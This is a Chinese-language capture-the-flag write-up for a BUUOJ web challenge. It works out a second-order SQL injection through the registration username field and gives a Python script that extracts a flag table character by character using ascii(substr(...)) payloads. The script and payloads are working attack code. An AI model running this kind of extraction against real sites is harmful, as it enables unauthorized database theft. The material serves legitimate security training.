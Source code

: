 ![](<./img/Pasted image 20230123100544.png>)

```
/login.php
```

![](<./img/Pasted image 20230123100602.png>)

```
/register.php
```

![](<./img/Pasted image 20230123101004.png>)

```
/index.php
```

![](<./img/Pasted image 20230123101414.png>)

![](<./img/Pasted image 20230123105630.png>)

只有用户名存在回显

猜测注册时执行类似下面的查询

```sql
INSERT INTO users (username, password, email)
VALUES ('$username', '$password', '$email')
```

注册时，如果用户名包含`,`则会回显`nnnnoooo!!!`

尝试对用户名进行注入

```
username='+7*8+'
```

![](<./img/Pasted image 20230123111509.png>)

验证了上面的猜测

```python
import requests
import time
import os
from bs4 import BeautifulSoup

url = 'http://xxx.node4.buuoj.cn:81/{}'
session = requests.sessions.Session()


def register(username, password, email):
    data = {'username': username, 'password': password, 'email': email}
    requests.post(url.format('register.php'), data=data)

def login(email, password):
    data = {'email': email, 'password': password}
    session.post(url.format('login.php'), data=data)

def get_username():
    return BeautifulSoup(session.get(url.format('index.php')).text, 'lxml').select_one('.user-name').getText()

def hack(username, password, email):
    register(username, password, email)
    login(email, password)
    print(chr(int(get_username())), end='')
    os.sys.stdout.flush()

for index in range(100):
    hack("'+ascii(substr((select * from flag) from {} for 1))+'".format(index), '123', '{}@123.45'.format(index))
    time.sleep(0.5)
```

```
flag{621b1f14-9443-4f74-af48-f6783c178030}
```

#Web #SQL注入